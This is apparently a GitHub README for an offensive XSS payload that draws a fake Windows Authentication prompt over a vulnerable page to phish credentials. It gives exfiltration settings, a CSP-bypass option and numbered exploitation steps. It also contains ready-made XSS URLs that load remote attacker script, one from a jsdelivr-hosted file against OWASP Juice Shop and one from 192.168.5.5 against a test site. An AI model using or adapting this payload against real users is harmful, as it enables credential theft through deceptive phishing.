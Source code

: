 # [unauthn] Windows Authentication Prompt (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays the dreaded Windows Authentication prompt popup window. The overlay creates the illusion that the operating system spawned the prompt. Once they encounter such an authentication prompt, most users have a (proven) tendency to blindly provide it credentials (which contributes to a higher success rate of such phishing attacks).</p>

Typical use case scenarios:
* external network perspective (Internet)
  * public web application which uses Windows Authentication (e.g. Outlook Web Access) without 2FA/MFA
* internal network perspective (LAN)
  * Windows Active Directory environments (**NOTE**: no web application requirements)

The payload (`winph.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. perform client-side redirect for data exfiltration)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. perform server-side redirect for data exfiltration)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions (i.e. popup appears only once)

  ```
  ...
  let runOnce = true;
  ...
  ```

## Live Example

* *(live example - OWASP juice shop - DOM XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2FWindowsPhishing%2FwinphLiveExample.js%27%3B%22%3E

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/winph.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/73fbd395-1458-4a41-a1df-47dd6d58cf23
